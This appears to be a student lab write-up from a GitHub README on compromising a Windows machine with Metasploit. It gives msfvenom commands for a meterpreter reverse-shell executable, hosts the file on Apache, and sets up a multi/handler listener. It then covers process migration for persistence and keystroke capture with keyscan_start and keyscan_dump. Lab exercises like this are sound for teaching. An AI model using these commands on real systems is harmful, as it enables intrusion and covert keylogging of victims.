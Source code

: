 # Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![](1.png)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![](2.png)

copy the fun.exe into the apache /var/www/html folder

![](3.png)

Start apache server sudo systemctl apache2 start

![](4.png)

Check the status of apache2

1[](5.png)

Invoke msfconsole:
msfconsole

![](6.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![](7.png)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![](8.png)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![](9.png)

Bypass any warning boxes, double-click the file, and allow it to run.

![](10.png)

On kali give the command exploit

![](11.png)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![](12.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![](13.png)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![](14.png)
![](15.png)

keyscan_dump Shows the keystrokes captured so far

![](16.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
